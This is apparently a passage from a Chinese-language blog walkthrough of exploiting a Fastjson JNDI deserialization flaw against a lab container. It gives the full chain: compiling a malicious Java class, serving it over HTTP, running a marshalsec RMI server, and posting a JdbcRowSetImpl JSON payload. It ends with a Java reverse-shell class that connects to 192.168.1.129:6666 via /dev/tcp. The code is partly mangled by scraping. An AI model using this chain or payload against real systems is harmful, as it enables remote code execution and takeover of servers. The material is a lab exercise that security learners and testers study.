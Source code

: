   
对文件进行编译  

```
javac TouchFile.java
```

  
搭建HTTP服务传输文件  

```
python -m SimpleHTTPServer 1387
```

  
![image-20230420011353523](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5PJgNf2hmjmjHhG01E1YMb6JAibsiaIxcGbxNjx8qdAWFiaTY4zeiaibxVQw/640?wx_fmt=png&from=appmsg "")  
  
![image-20230420011725129](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5R8ibSqEHdpTbavAfAHH5mz9icRkZ2rOH7LkiclAI0b9yY7jwPN8Z8QZ7g/640?wx_fmt=png&from=appmsg "")  
  
接下来利用java反序列化工具  

```
git clone https://github.com/mbechler/marshalsec.git 下载marshalsec
apt-get install maven 安装maven
mvn clean package-DskipTests 使用maven编译marshalsec成jar包
```

  
启动RMI服务器，监听9999端口  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer&#34;http://192.168.1.129:1387/#TouchFile&#34;9999
```

  
![image-20230420011506338](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5LiapUnB72fO2x1zG8kl2aJ3wb8V9TwqqTNvibS6U7dk2MicR02lDQ4LPw/640?wx_fmt=png&from=appmsg "")  
  
而后抓包，修改为POST请求，修改**Content-Type为 application/json**  
，而后传输如下数据  

```
{
&#34;b&#34;:{
&#34;@type&#34;:&#34;com.sun.rowset.JdbcRowSetImpl&#34;,
&#34;dataSourceName&#34;:&#34;rmi://192.168.1.129:9999/TouchFile&#34;,
&#34;autoCommit&#34;:true
}
}
```

  
![image-20230420011605096](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5qFYianQ2bdkqRjNwVqIb2Ad6ibmbnuWUuPSUVYZYBOuU4I9HyYic3K7SA/640?wx_fmt=png&from=appmsg "")  
  
而后查看容器中的/tmp下已成功生成**success**  
，反弹shell同理，只需要更改代码即可  

```
// javac TouchFile.java
importjava.lang.Runtime;
importjava.lang.Process;

publicclassTouchFile{
static{
try{
Runtime rt =Runtime.getRuntime();
String[] commands ={&#34;/bin/bash&#34;,&#34;-c&#34;,&#34;bash -i >& /dev/tcp/192.168.1.129/6666 0>&1&#34;};
Process pc = rt.exec(commands);
            pc.waitFor();
}catch(Exception e){
// do nothing
}
```